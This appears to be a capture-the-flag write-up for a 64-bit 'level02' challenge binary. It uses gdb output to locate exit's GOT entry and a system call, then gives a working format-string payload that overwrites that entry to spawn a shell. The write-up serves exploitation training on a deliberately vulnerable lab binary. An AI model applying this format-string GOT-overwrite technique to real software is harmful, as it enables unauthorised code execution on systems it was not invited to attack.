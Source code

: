 ## Got some printf left ? (level02)

Here, with this [binary](source.c), we have a pseudo login prompt again. After
checking the lengths of the buffers and the `fgets` calls, we do not have a
sufficient overflow to do anything useful. So the part we need to exploit is at
the end of the program. It's when it is printing back our username to us through
a very dumb `printf` on _username_.

> This is the first 64-bit binary to exploit. This changes a few things, but not
> much.

We will execute a
[got overwrite](https://infosecwriteups.com/got-overwrite-bb9ff5414628) exploit.

To do this we need the `exit`'s got address (not puts, because I want the string
saying that I dont have access to print before I effectively do get access, for
fun):

```shell
# run gdb on the binary
gdb ./level02
(gdb) disass exit
Dump of assembler code for function exit@plt:
   0x0000000000400710 <+0>:     jmpq   *0x200b12(%rip)        # 0x601228 <exit@got.plt>
   0x0000000000400716 <+6>:     pushq  $0xa
   0x000000000040071b <+11>:    jmpq   0x400660
End of assembler dump.
```

Then we must find a way to get a shell. The `system` function is actually called
in the binary but it is within an unreachable condition. All we have to do then
is to set `exit`'s got address to the place where `system` is called:

```shell
(gdb) disass main
   0x0000000000400a80 <+620>:   callq  0x4006c0 <printf@plt>
   0x0000000000400a85 <+625>:   mov    $0x400d32,%edi
   0x0000000000400a8a <+630>:   callq  0x4006b0 <system@plt>
```

We're gonna use the address of the instruction just above system since it loads
its argument into the appropriate register. 0x400a85 = 4196997 in base 10, which 
is the value we want to write at `exit`'s got address. So this is going to be
our field width to set the number of bytes written by printf. Then we can pass
the address we want to write to as an argument to n. This will be the last thing
on the stack at the moment `printf` is called which will be the start of the
_password_ buffer. So we pass `exit`'s got address as a password.

```shell
(echo '%04196997d%8$n'; python -c 'print "\x60\x12\x28"[::-1]'; cat) | ./level02
```

Also here we go look for the 8th argument for the n conversion because this
where the password buffer starts.
